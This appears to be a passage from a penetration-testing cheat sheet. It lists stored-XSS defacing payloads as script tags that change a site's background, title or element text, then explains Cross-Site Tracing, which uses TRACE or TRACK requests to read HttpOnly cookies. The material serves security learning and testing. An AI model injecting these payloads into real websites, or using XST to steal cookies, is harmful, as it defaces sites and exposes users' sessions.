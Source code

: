 ***

### **XSS Defacing**

> * Defacing means changing the website's appearance for anyone who visits the website
> * The website's appearance can be changed using injected Javascript code
> * Note: This requires a stored XSS Vulnerability

| Defacing Payload                                                                    | Description                                  |
| ----------------------------------------------------------------------------------- | -------------------------------------------- |
| `<script>document.body.style.background = "#141d2b"</script>`                       | Change website background color              |
| `<script>document.body.background = "https://example.com/images/logo.svg"</script>` | Change website background image              |
| `<script>document.title = 'New Title'</script>`                                     | Change website title                         |
| `document.getElementById("todo").innerHTML = "New Text"`                            | Change HTML element/DOM text using innerHTML |

## Miscellaneous

### Bypassing HTTPOnly - Cross Site Tracing (XST)

A Cross-Site Tracing (XST) attack involves the use of Cross-site Scripting (XSS) and the TRACE or TRACK HTTP methods.

{% hint style="info" %}
The HTTP TRACE method allows the client to see what is being received at the other end of the request chain and use that data for testing or diagnostic information.

The TRACK method works in the same way but is specific to Microsoft’s IIS web server.
{% endhint %}

Using XST, an attacker can steal user’s cookies even if they have the “HttpOnly” flag, as the TRACE method will reflect back the input user’s request, revealing any Cookies or Authorization header.

OWASP provides several [examples](https://owasp.org/www-community/attacks/Cross\_Site\_Tracing) about this attack that you can check out.

{% hint style="danger" %}
This technique is quite old: modern browsers typically block the HTTP TRACE method inside scripting languages and libraries. The only way to effectively leverage XST is to use existing alternatives to JavaScript such as Java&#x20;
{% endhint %}
